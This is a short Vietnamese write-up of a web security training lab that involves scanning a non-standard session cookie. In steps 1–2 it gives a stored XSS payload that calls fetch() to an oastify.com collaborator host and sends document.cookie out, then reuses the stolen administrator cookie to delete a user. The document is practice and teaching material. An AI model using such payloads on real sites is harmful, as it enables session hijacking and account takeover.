





# Lab: Scanning non-standard data structures

Credential được cấp sẵn: `wiener:peter`

Sau khi login, kiểm tra cookie thấy định dạng đặc biệt:



URL decode thu được:

```
session=wiener:5C3LUAs3Ybugq1ZvawC33setikvJNHVV
```

Thấy có chứa username, nên bôi đậm phần `wiener` rồi chọn:

`Right click -> Scan selected insertion point`



Em thử nhiều lần nhưng chưa ra kết quả mong muốn:



## Các bước khai thác tiếp theo

1. Chuyển sang kiểm tra khả năng OAST với payload:

```text
session='"><svg/onload=fetch(`//iawvidp6cowjcexic18dwq2io9u0iq6f.oastify.com/`)>:5C3LUAs3Ybugq1ZvawC33setikvJNHVV
```

Kết quả cho thấy có thể trigger OAST:



2. Mục tiêu cuối cùng là lấy cookie của `administrator`, nên sửa payload thành:

```text
session='"><svg/onload=fetch(`//iawvidp6cowjcexic18dwq2io9u0iq6f.oastify.com/${encodeURIComponent(document.cookie)}`)>:5C3LUAs3Ybugq1ZvawC33setikvJNHVV
```

Lý do thêm `encodeURIComponent`: cookie có chứa ký tự `:` nên cần URL encode để lấy giá trị chính xác.



3. Decode dữ liệu nhận được:

`administrator:LUl4xFgQkNansShQ0JE9Dq0aJnXhROVj; secret=MViUHFXEOWii47yxS3W9T6xP3PdvzSpT`

4. Dùng web tool đổi session cookie thành:

`administrator%3aLUl4xFgQkNansShQ0JE9Dq0aJnXhROVj`

5. Reload page, truy cập `/admin`, xóa user Carlos, sau đó solve lab.
